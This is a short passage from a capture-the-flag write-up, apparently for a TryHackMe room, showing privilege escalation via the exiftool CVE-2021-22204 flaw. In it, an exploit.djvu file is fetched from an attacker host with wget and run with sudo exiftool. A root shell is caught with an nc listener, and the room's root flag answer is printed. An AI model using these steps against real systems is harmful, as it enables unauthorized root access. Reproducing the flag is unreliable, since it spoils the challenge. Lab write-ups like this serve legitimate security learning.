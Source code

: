 <p>imagecmspit.jpg</p>

```bash
:~/CVE-2021-22204-exiftool# python3 -m http.server
```

```bash
stux@ubuntu:/tmp$ wget http://10.10.19.210:8000/exploit.djvu
...
stux@ubuntu:/tmp$ sudo /usr/local/bin/exiftool exploit.djvu
```

<br>

> 1.12. <em>Escalate your privileges. What is the flag in root.txt?</em><br><a id='1.12'></a>
>> <strong><code>thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}</code></strong><br>
<p></p>

```bash
:~/CVE-2021-22204-exiftool# nc -nlvp 9090
...
# whoami
root
# pwd
/tmp
# ls /root
root.txt
# cat /root/root.txt
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}
```


![image](https://github.com/user-attachments/assets/31ad4101-7799-4dd7-ad65-beb3a3f9297e)



<p>Logged in as <code>admin</code> again.<br>
Navigated to <code>System</code> > <code>Accounts</code><br>
Changed <code>darkStar7471</code>´s and <code>Ekoparty</code>´s passwords</p>


